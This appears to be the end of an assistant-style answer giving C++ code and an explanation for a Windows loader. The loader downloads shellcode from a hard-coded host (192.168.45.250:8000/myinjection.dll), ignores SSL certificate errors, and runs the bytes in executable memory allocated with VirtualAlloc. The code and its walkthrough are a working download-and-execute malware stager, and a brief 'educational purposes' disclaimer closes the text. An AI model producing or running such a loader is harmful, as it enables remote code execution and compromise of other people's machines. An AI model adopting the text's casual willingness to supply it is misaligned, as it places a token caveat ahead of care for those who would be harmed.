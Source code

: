 ```cpp
        return;
    }

    // Buffer to hold the downloaded bytecode
    char buffer[4096];
    DWORD bytesRead;
    std::vector<BYTE> shellcode;

    // Read the bytecode from the URL
    while (InternetReadFile(hUrl, buffer, sizeof(buffer), &bytesRead) && bytesRead) {
        shellcode.insert(shellcode.end(), buffer, buffer + bytesRead);
    }

    // Close internet handles
    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);

    // Execute the downloaded shellcode
    ExecuteShellcode(shellcode.data(), shellcode.size());
}

int main() {
    const char* url = "https://192.168.45.250:8000/myinjection.dll";
    DownloadAndExecuteShellcode(url);

    return 0;
}
```

### Explanation:

1. **SSL Certificate Validation Disabled:**
   - The `InternetSetStatusCallback` is used to set a callback function (`InternetCallback`) that returns `TRUE` for all SSL-related status codes, effectively disabling SSL certificate validation.

2. **WinINet API:**
   - `InternetOpen`, `InternetOpenUrl`, and `InternetReadFile` are used to open the internet session, download the bytecode from the provided URL, and read it into a buffer.

3. **Shellcode Execution:**
   - The `ExecuteShellcode` function allocates executable memory using `VirtualAlloc`, copies the shellcode into that memory using `RtlMoveMemory`, and then executes it by casting the memory to a function pointer.

4. **No SSL Certificate Validation:**
   - The `INTERNET_FLAG_IGNORE_CERT_CN_INVALID` and `INTERNET_FLAG_IGNORE_CERT_DATE_INVALID` flags are passed to `InternetOpenUrl` to ignore SSL certificate errors.

### Important Considerations:
- **Security Risks:** Executing shellcode from a remote source is highly dangerous and should only be done in controlled, safe environments for research or testing purposes.
- **Error Handling:** Additional error handling should be added for production-level code, especially for network operations and memory allocation.

This code is intended for educational purposes and should be used with caution.